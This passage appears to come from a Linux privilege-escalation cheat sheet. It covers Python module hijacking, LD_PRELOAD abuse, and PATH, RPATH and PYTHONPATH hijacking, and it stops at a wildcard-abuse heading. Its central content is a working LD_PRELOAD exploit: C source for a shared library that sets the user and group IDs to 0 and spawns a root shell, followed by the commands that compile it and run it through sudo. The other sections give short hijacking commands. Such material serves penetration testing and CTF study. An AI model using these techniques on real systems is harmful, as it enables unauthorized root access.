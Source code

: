 	    pip3 show <module>
	    ```
	- If there is a folder with write permission before the installation path of the module (higher in the list) you can create your module with, as the called function from the module, a payload.
	- Python will first look in the same folder as the script is written in!
- **LD PRELOAD**
  The `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones.
  1. Write the C file:
     ```c
     #include <stdio.h>
     #include <sys/types.h>
     #include <stdlib.h>
     #include <unistd.h>
     
     void _init() {
     unsetenv("LD_PRELOAD");
     setgid(0);
     setuid(0);
     system("/bin/bash");
     }
     ```
  2. Compile:
     ```bash
     gcc -fPIC -shared -o root.so root.c -nostartfiles
     ```
  3. Execute
     ```bash
     sudo LD_PRELOAD=/tmp/root.so [BIN] restart
     ```
##### Environment Hijacking
- **Path Hijacking**
- **Writable `$PATH`** (always doable)-> `echo $PATH`
  -> Look for binaries without full path
    ```bash
    export PATH=[DIRECTORY]:$PATH
    ```
- **RPATH Hijacking**
  - Check the`RUNPATH` configuration 
	  ```bash
	  readelf -d [BINARY] | grep -E "NEEDED|RPATH"
	  ```
	- Libraries in this folder are given preference over other folders
	- Place a malicious library here
- **PYTHONPATH Hijacking**
    `PYTHONPATH` is an environment variable that indicates what directories Python can search for modules to import.

    *Requires `sudo` on `python3` with `SETENV` flag*
    ```bash
    sudo PYTHONPATH=/tmp/ /usr/bin/python3 [python_script]
    ```
##### Wildcard abuse 
